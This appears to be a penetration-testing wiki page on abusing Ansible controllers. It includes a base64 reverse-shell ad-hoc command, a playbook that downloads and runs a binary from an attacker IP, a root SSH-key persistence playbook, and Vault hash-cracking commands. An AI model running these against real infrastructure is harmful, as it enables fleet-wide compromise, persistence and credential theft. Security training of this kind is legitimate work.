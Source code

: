 # Ansible Pentesting

## Theory

[Ansible](https://docs.ansible.com/) is a powerful configuration management and automation tool widely used in DevOps to manage servers and deploy applications. However, its design and features can also make it a potential attack vector if improperly configured or abused.

Ansible operates on a "push" model, where the Ansible controller executes Modules on registered "nodes". Key components include:

* **Inventory**: A list of managed nodes (targets), located on the controller server at `/etc/ansible/hosts`
* **Playbooks**: YAML files that define tasks and automation processes.
* **Modules**: Scripts used to perform specific actions (e.g., file operations, command execution).

In order to perform actions on managed nodes, a password for a node user must be stored on the controller, or the controller's Ansible account must be configured on it using SSH keys. This allows the controller to connect to the node and execute the desired modules.

## Practice

### Command Execution

{% hint style="danger" %}
The following methods are utilized from the Ansible Controller, requiring a user with the necessary privileges.
{% endhint %}

{% tabs %}
{% tab title="Ad-hoc Commands" %}
[Ad-hoc commands](https://docs.ansible.com/ansible/latest/command_guide/intro_adhoc.html) are simple shell commands to be run on one or more managed nodes in the Ansible inventory. They are used for one-time tasks and are not included in a playbook.

```bash
# On Ansible Controller
## Simply run
ansible <GROUP_NAME> -m shell -a "echo <BASE64_REVERSE_SHELL>|base64 -d|/bin/bash"

## Run as sudo
ansible <GROUP_NAME> -m shell -a "echo <BASE64_REVERSE_SHELL>|base64 -d|/bin/bash" --become
```
{% endtab %}

{% tab title="Playbooks" %}
[Ansible Playbooks](https://docs.ansible.com/ansible/latest/playbook_guide/playbooks_intro.html) offer a repeatable, reusable way to run a sets of tasks on Ansible nodes. Playbooks are expressed in YAML format.

We can use Playbooks to execute a malicious script/binary on Ansible nodes.&#x20;

{% hint style="info" %}
The `hosts` field specifies the target hosts from the inventory on which the playbook will be executed. You can use:

* **Groups**: Specify a group of hosts defined in the inventory file.
* **Individual Hosts**: Target specific hosts by their names.
* **All**: Use "all" to run the playbook on every host listed in the inventory
{% endhint %}

#### Simple Execution

{% code title="evil.yml" %}
```yaml
- hosts: all
  tasks:
  become: yes # Delete this line if playbook should not be run as root
  - name: evil
    shell: "curl -o /tmp/evil.elf http://<ATTACKING_IP>/evil.elf && chmod +x /tmp/evil.elf && /tmp/evil.elf"
    async: 10
    poll: 0
```
{% endcode %}

Run the playbook:

```bash
ansible-playbook evil.yml
```

#### SSH Persistence

The following playbook acheive SSH persistence by adding a public key to the `/root/.ssh/authorized_keys` file

```yaml
---
- name: Add SSH key for persistence
  hosts: target_hosts
  become: yes
  tasks:
    - name: Ensure the .ssh directory exists
      file:
        path: /root/.ssh
        state: directory
        mode: '0700'
        owner: root
        group: root
        
    - name: Create authorized keys if it does not exist
      file:
        path: /root/.ssh/authorized_keys
        state: touch
        mode: '0600'
        owner: root
        group: root
      
    - name: Add SSH public key for persistence
      authorized_key:
        user: root
        state: present
        key: "ssh-rsa AAAAB3NzaC1yc2EAAAABIwAAAQEAr...your_key_here... user@hostname"  # Replace with your actual SSH public key

    - name: Ensure SSH service is enabled and running
      service:
        name: sshd
        state: started
        enabled: yes
```
{% endtab %}
{% endtabs %}

### Unsecured Credentials

if we are able to read Ansible playbooks, we may found sensitive data like secrets and hardcoded credentials.

{% tabs %}
{% tab title="Playbook Secrets" %}
We may find hardcoded credential in playbooks alongside the `become` directive, as it may allows Administratror to use SSH whithout keys.

```yaml
- hosts: all
  become: yes
  become_user: root
  vars:
    db_user: "admin"
    db_password: "password123"
```

Alternatively we may directly find hardcoded credentials in shell commands

```yaml
- name: MySQL_SHOW_DB
  hosts: target_servers
  become: yes
  tasks:
    - name: get db
      shell: |
        echo "Connecting to the database..."
        mysql -u admin -p'password123' -e "SHOW DATABASES;"
```
{% endtab %}

{% tab title="Vault Secrets" %}
[Ansible Vault ](https://docs.ansible.com/ansible/latest/vault_guide/index.html)is a feature that allows users to encrypt sensitive data within playbooks. However, we may be able to decrypt the file with password or by cracking hash to retrieve password.

First check the file encrypted with Ansible Vault.

```bash
cat example.yml

# -- output --
$ANSIBLE_VAULT;1.1;AES256
62313365396662343061393464336163383764373764613633653634306231386433626436623361
6134333665353966363534333632666535333761666131620a663537646436643839616531643561
63396265333966386166373632626539326166353965363262633030333630313338646335303630
3438626666666137650a353638643435666633633964366338633066623234616432373231333331
6564
```

We can use **`ansible2john`** to generate the hash to make it crackable.

```bash
ansible2john example.yml > hash.txt
```

Then crack this hash using **John The Ripper** or **Hashcat**.

```bash
john --wordlist=wordlist.txt hash.txt
# or
hashcat -a 0 -m 16900 hash.txt wordlist.txt --user
```

After cracking and retrieving the passwrod, we can use it to decrypt the file as below.

```bash
ansible-vault decrypt example.yml --output decrypted.txt
```
{% endtab %}

{% tab title="Syslog Leakage" %}
When Ansible operates on a host, some modules will attempt to log their actions to `/var/log/syslog`. This log includes the module name and the arguments passed along to that command, which could include secrets or credentials.

{% hint style="info" %}
Some playbooks may mitigate the risk of sensitive data being logged in syslog by using the `no_log: true` option in tasks.&#x20;
{% endhint %}

We may therefore find sensitive data **on ansible nodes** by looking at the `/var/log/syslog` file.

```bash
cat /var/log/syslog
```
{% endtab %}
{% endtabs %}

### Weak Playbooks Permissions

If we discover a playbook on the Ansible controller with **write permissions** or can exploit vulnerabilities to gain such access, **we can modify the playbook to insert malicious tasks**. These tasks will then execute during the next run of the playbook, potentially allowing us to escalate privileges, exfiltrate data, or deploy additional backdoors.

## Resources

{% embed url="https://exploit-notes.hdks.org/exploit/cryptography/algorithm/ansible-vault-secret/" %}

{% embed url="https://medium.com/@pavithra_38952/protecting-your-secrets-with-ansible-cac601a1a5ab" %}

{% embed url="https://ppn.snovvcrash.rocks/pentest/infrastructure/devops/ansible" %}
